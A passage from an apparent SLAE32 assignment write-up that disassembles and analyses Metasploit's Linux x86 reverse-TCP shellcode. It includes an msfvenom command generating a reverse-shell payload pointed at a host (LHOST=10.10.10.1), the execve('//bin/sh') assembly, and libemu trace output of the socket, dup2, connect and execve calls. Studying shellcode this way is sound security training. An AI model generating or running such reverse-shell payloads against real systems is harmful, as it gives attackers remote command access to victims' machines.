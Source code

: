 and then the `execve()` syscall:

{% highlight nasm %}
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e  ; "hs/n"
00000035  682F2F6269        push dword 0x69622f2f  ; "ib//"
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb             ; execve
00000042  CD80              int 0x80
{% endhighlight %}

we can check the linux syscall number by running the following command:

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ python3 -c "print(int(0xb))"
11

kecebong@ubuntu:~/slae32/assigment/msfvenom$ grep " 11$" /usr/include/i386-linux-gnu/asm/unistd_32.h 
#define __NR_execve              11
{% endhighlight %}

If we convert the hex number for the two `push dword` instructions above, we can see that the argument of `execve()` which is `//bin/sh`.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ python3 -c "print(bytes.fromhex('68732f6e69622f2f'))"
b'hs/nib//'
{% endhighlight %}

Generate `libemu` callgraph of the shellcode we generate with metasploit:

{% highlight c %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.1 -f raw | \
sctest -v -S -s 99999 -G reverse.dot && dot reverse.dot -T png -o reverse.png
graph file reverse.dot
verbose = 1
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
int socket(int domain=2, int type=1, int protocol=0);
int dup2(int oldfd=14, int newfd=2);
int dup2(int oldfd=14, int newfd=1);
int dup2(int oldfd=14, int newfd=0);
connect
execve
int execve (const char *dateiname=00416fa6={//bin/sh}, const char * argv[], const char *envp[]);
cpu error error accessing 0x00000004 not mapped

stepcount 42
copying vertexes
optimizing graph
...
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (